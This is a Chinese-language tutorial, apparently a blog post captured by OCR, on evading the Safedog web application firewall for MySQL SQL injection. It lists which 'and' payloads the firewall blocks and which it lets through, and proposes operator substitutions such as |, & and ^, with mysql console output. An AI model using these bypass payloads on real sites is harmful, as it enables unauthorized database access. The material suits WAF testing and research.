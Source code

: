 # 0x00 简介

其实我们过这些waf就是个正则的绕过，因为这种通用型的waf，需要考虑到用户体验，他不能出现什么东西就直接拦截，比正则过滤的一些好绕一点，如何成功绕过我们需要具备对mysql各个函数、语法、特性的熟悉，然后通过不断的fuzz来测试出我们想要的payload的

每个狗的版本不同，他的正则也是不同的所以有的payload在最新版可以用，在老板不就可能用不上，当你的知识量有一定的积累后，绕过waf或许就很简单，

如何快速的提升自己的这些知识，多看文章，多看官方手册。


# 0x01 探索 and

实验环境 ： win2003 apache 安全狗4.0.23957

首先我们来探索简单的语句 `and 1=1`

```
and 1    拦截
and '1'  拦截
and a    不拦截
and 'a'  拦截
and !    不拦截
and 1+1  拦截
and 1+a  拦截
and hex(1) 不拦截

```

通过测试我们发现当 and 后面跟上 数字型和字符型时他会给我们拦截掉 ，其实我们在安全狗的规则里面可以看到他拦截 and 和 or 所以我们有2个思路

1. 用其他字符替换 and 或者 or 

2. 带入的不是字符串和数字型，带入一个特殊符号

针对第一种我们可以去看看运算符号 随便找到几个`| ^ xor & / * && ||` 等等还有很多

```
mysql> select '1'|1;
+-------+
| '1'|1 |
+-------+
|     1 |
+-------+
1 row in set (0.00 sec)


mysql> select '1'&1;
+-------+
| '1'&1 |
+-------+
|     1 |
+-------+
1 row in set (0.00 sec)

mysql> select '1'^1;
+-------+
| '1'^1 |
+-------+
|     0 |
+-------+
1 row in set (0.00 sec)


```
